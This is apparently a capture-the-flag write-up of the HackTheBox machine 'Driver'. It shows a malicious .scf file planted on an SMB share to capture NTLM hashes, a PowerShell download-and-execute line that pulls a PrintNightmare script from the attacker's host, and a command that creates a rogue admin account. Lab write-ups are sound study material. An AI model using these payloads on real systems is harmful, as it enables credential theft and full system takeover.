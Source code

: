 ```yaml
---
title: "Driver HTB"
date: 2022-05-08T17:30:30
categories:
  - study
tags:
  - Windows
  - Network
  - Printer
  - Arbitrary File Upload
classes: wide
---
```

Driver is a retired Windows machine rated Easy on the HacktheBox platform. It can be found [here.](https://app.hackthebox.com/machines/Driver)

<h2> Enumeration</h2>
**Nmap scan results:**

```
80/tcp  open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)   
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

<h2>Foothold</h2>

We navigate to the website running on port 80 and get a request for credentials. I attempt the first one in mind `admin:admin` and we seem to be let right in. From here we see: 

<img src="/assets/images/Driver/drv0.PNG" alt="index.php">

The only navigation bar links that work seem to be "Home" and "Firmware Updates". Navigating to the latter we see:

<img src="/assets/images/Driver/drv1.PNG" alt="We can upload?">

I upload a reverse php shell file but can't navigate to any file directories (It's windows...). I re-read the explanation of the service again `upload the respective firmware update to our file share`. I see. It gets uploaded to a SMB file share. so a quick [google](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) informs me that use of files with the extension `.scf` can be used to execute certain commands. 

>*It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.*

We're instructed that we can use create a file with the following contents:

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
We do this and then start up [responder](https://www.oreilly.com/library/view/mastering-kali-linux/9781787120235/080d49cf-9726-4bbc-ad96-49ef7cbe0729.xhtml) and upload our `@evil.scf` file.

We receive the NTLM hash for the user who checks our `.scf` file which is pointing at our machine and picked up by our listening responder. 

<img src="/assets/images/Driver/drv2.PNG" alt="Gottem.">

From here we save it into a file and use hashcat to crack it.

<img src="/assets/images/Driver/drv3.PNG" alt="liltony"> 

We see the user's credentials are "TONY:liltony". As port 5985 is open we can use `evil-winrm` to connect over winrm with these credentials. 

<img src="/assets/images/Driver/drv4.PNG" alt="liltony"> 

<h2>Privilege Escalation</h2>

From here, we explore the idea that this box could be print nightmare related. The printer management on port 80 gives a big hint. We see that the print Spooler service is running which means we should try the exploit.

<img src="/assets/images/Driver/drv5.PNG" alt="liltony"> 

Grabbing the exploit from [Caleb Stewart | John Hammond](https://github.com/JohnHammond/CVE-2021-34527) we run our classic python webserver and then use powershell on target to download the file with: 

```
iex(new-object net.webclient).downloadstring('http://10.10.14.9/nightmare.ps1')
```

From here we use the `Invoke-Nightmare` command to generate an admin account:

```
Invoke-Nightmare -NewUser "vanitas" -NewPassword "password"
```
<img src="/assets/images/Driver/drv6.PNG" alt="vanitas"> 

We sign-in as the user we just created and check our group membership.

<img src="/assets/images/Driver/drv7.PNG" alt="vanitas"> 

We have local admin and we can check the usual place for the root flag:

<img src="/assets/images/Driver/drv8.PNG" alt="Flag"> 

We also go back for the user flag we forgot:

<img src="/assets/images/Driver/drv9.PNG" alt="Flag"> 


<img src="/assets/images/Driver/drv10.PNG" alt="Flag"> 

<h4>For next time:</h4>

- Gotta remember the `.scf` SMB fileshare trick.




